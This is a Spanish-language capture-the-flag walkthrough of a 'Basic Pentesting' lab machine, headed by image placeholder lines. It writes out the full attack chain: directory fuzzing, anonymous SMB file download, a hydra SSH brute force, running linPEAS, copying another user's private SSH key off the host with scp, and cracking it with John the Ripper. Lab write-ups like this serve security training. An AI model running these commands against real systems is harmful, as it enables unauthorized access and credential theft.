







# Basic Pentesting

## NMAP

Encontramos un apache(8080) y un smb (445)

## Fuzzing

    gobuster dir -u http://10.10.254.164/ -w Desktop/common.txt -x php 

Encontramos 2 archivos

Podemos ver que los desarrolladores se hablan por aqui

## SMB

Realizamos una busqueda de recursos compartidos.

    smbmap -H 10.10.148.28  

Listamos Anonymous

    smbmap -H 10.10.148.28 -r anonymous

Nos conectamos como Anonymous y descargamos el fichero. 

    smbclient //10.10.254.164/anonymous -N

    smb: \> get staff.txt

Dentro encontramos los nombres de usuario.

## Fuerza bruta

    hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.254.164

## SSH

Entramos con el usuario y contraseñas extraidos

## LinPEAS

En caso de no tenerlo, clonamos el repositorio

    git clone https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Pasamos LinPEAS a la máquina

    scp linpeas.sh jan@10.10.254.164:/tmp

Le damos permisos y lo ejecutamos

    chmod +x linpeas.sh

    ./linpeas.sh

Encontramos la clave SSH

La pasamos a nuestro ordenador 

    scp jan@10.10.254.164:/home/kay/.ssh/id_rsa /home/kali/Desktop

Pasamos el archivo a txt usando un script

Lo rompemos usando **JohnTheRipper**

## Clave final

Entramos con la clave

Aqui encontraremos la contraseña final
